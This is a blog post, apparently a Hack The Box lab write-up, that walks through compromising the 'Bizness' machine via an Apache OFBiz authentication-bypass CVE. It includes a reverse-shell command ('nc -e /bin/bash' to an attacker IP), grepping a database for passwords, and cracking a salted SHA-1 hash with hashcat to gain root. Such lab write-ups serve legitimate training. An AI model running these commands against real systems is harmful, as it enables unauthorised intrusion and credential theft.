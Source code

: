 ```yaml
---
title: HTB Writeup - Bizness
date: 2024-01-11 14:28:47 +07:00
modified: 2024-01-12 09:45:00 +07:00
tags: [hackthebox, linux, boot2root, rce]
description: All the services are free, a source code this site placed on github repository and intergration with netlify service, another service that you can use is github page for hosting your own static site.
---
```


<img src="/assets/blog-images/htb-bizness/image0.png" alt="bizness">

Hello, this is my first post on this blog. On this first post I'm going to explain the walktrough of the hackthebox machine called Bizness.
First, we do the nmap scanning, to see what are the things that we can look for the foothold.

# Information Gathering
```bash
# Nmap 7.94SVN scan initiated Tue Jan  9 14:22:30 2024 as: nmap -p- -sC -sV -A --min-rate 5000 -o nmap.bizness 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.029s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
42235/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/9%OT=22%CT=1%CU=33356%PV=Y%DS=2%DC=T%G=Y%TM=659CF
OS:484%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=2%ISR=10A%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M5
OS:52ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   29.47 ms 10.10.14.1
2   29.62 ms 10.10.11.252

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  9 14:23:48 2024 -- 1 IP address (1 host up) scanned in 78.61 seconds
```

# Directory Enumeration
After looking at the ports, there's only one thing that we can check which is the web application. When I visit bizness.htb, it automatically direct to  `https://bizness.htb/` on port 443. Without further do, I just do the fuzzing to see if there is a juicy information that we can use.

```bash
dirsearch -u https://bizness.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/corvuz/hackthebox/bizness/reports/https_bizness.htb/__24-01-09_15-42-52.txt

Target: https://bizness.htb/

[15:42:52] Starting: 
[15:43:04] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[15:43:05] 400 -  795B  - /a%5c.aspx                                        
[15:43:06] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[15:43:23] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[15:43:25] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[15:43:25] 404 -  780B  - /common/config/api.ini                            
[15:43:25] 404 -  779B  - /common/config/db.ini                             
[15:43:25] 404 -  762B  - /common/                                          
[15:43:26] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[15:43:27] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[15:43:27] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[15:43:27] 200 -   34KB - /control/                                         
[15:43:27] 200 -   34KB - /control
[15:43:28] 200 -   11KB - /control/login                                    
[15:43:29] 404 -  763B  - /default.html   
```
Using dirsearch I found a foothold in a form of login page in the directory */control/login* 

<img src="/assets/blog-images/htb-bizness/image1.png" alt="Login Page">

# Vulnerability Analysis
Doing some research on google to get to know about the version whether it's outdated or not.
<img src="/assets/blog-images/htb-bizness/image2.png" alt="sources">

found many resources that talked about the critical cve let's check the first one by [cybersecuritydiver](https://www.cybersecuritydive.com/news/apache-ofbiz-cve-exploitation/703788/)

<img src="/assets/blog-images/htb-bizness/image3.png" alt="cybersecuritydive.com">

We can see that service has outdated version which have vulnerability CVE-2023-51467 that could allowing an attacker to execute arbitrary code without authentication.

# Exploitation
Found this amazing poc that can make us easier to exploit the service. Clone the repository, and run as suggested. Here's the link for [Github](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

<img src="/assets/blog-images/htb-bizness/image4.png" alt="POC">

Now we able to get the reverse shell using this command:

`python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.59 1337'`

<img src="/assets/blog-images/htb-bizness/image5.png" alt="exploitation">

Good, we got the  user flag

<img src="/assets/blog-images/htb-bizness/image6.png" alt="Use Flag">

# Privilege Escalation
At first I was so confused to find the root and stuck. So I visit HTB forum to get some nudge and insight. Sorry, I'm noob here *sad

So, I able to get some information on this path `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` but when you get into that there's bunch of files, it will takes a long time if you check it one by one.

Therefore, I try to get this information, by using this grep command.

`grep -arin -o -E (\w+\W+){0,5}password(\W+\w+){0,5}' .`

<img src="/assets/blog-images/htb-bizness/image7.png" alt="hash">

This a bit of explanation about the purpose of the command:

    1. `grep`: This command is used for searching text patterns in files.
    
    2. `-a`: This option forces `grep` to treat binary files as text. It can be useful when searching through files that may contain binary data.
    
    3. `-r`: This option makes `grep` search recursively through directories, including subdirectories.
    
    4. `-i`: This option makes the search case-insensitive, meaning it will match "password," "Password," "PASSWORD," etc.
    
    5. `-n`: This option displays the line numbers along with the lines that match the pattern.
    
    6. `-o`: This option prints only the matched parts of a line, rather than the entire line.
    
    7. `-E`: This option enables extended regular expressions, allowing the use of parentheses `{}` for specifying repetition.
    
    8. `'(\w+\W+){0,5}password(\W+\w+){0,5}'`: This is the regular expression being searched for. Let's break it down:
    
        - `(\w+\W+){0,5}`: This part matches up to 5 occurrences of word characters (`\w`) followed by non-word characters (`\W`). This allows for any characters (including spaces, punctuation, etc.) between the beginning of the line and the word "password."
        - `password`**: This is the literal string "password" that the command is searching for.
        - `(\W+\w+){0,5}`: This part matches up to 5 occurrences of non-word characters followed by word characters. This allows for any characters between the word "password" and the end of the line.
    9. `.`: This specifies the current directory as the location to search.

    Big thanks to chatgpt for providing this brief explanation. lol

After we found the hash, we cannot crack it immediately, we need to decode it first using [cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'_'%7D,'/',false,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false)From_Base64('A-Za-z0-9%2B/%3D',false,false)To_Hex('None',0)&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ)

<img src="/assets/blog-images/htb-bizness/image8.png" alt="cyberchef">

Because the hash is in a form of SHA-1 and also it has salt we need to use 120 mode `sha1($salt.$pass)` on hashcat modules.

<img src="/assets/blog-images/htb-bizness/image9.png" alt="Hashcat Module">

This is important thing, append the salt “:d” to crack it with hashcat.

<img src="/assets/blog-images/htb-bizness/image10.png" alt="hashcat">

Using this command: 

`hashcat -a 0 -m 120 hash /home/corvuz/SecLists/Passwords/Leaked-Databases/rockyou.txt` 

Now we cracked the hash and found password.

<img src="/assets/blog-images/htb-bizness/image11.png" alt="Login Page">

now just su and use the password `monkeybizness`, we are rooted.

Thank you, for reading `:))`
 